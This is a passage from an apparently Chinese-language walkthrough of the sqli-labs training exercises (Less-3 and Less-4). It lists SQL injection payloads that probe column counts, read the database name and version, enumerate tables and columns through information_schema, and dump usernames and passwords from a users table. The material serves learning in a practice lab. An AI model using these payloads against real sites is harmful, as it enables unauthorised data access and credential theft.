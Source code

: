 

+ 注入以下语句，成功爆破

~~~ shell
?id=-1') union select 1,2,group_concat(username ,id , password) from users--+
~~~

![Less-3_9](./img/Less-3_9.PNG)



### Less-4

+ 根据下面代码<code>sql</code>注入

~~~ shell
?id=1") order by 3--+
?id=-1") union select 1,2,3--+
?id=-1") union select 1,database(),version()--+
?id=-1") union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security'--+
?id=-1") union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users'--+
?id=-1") union select 1,2,group_concat(username ,id , password) from users--+
~~~



+ 首先注入以下语句

~~~ shell
?id=1
~~~
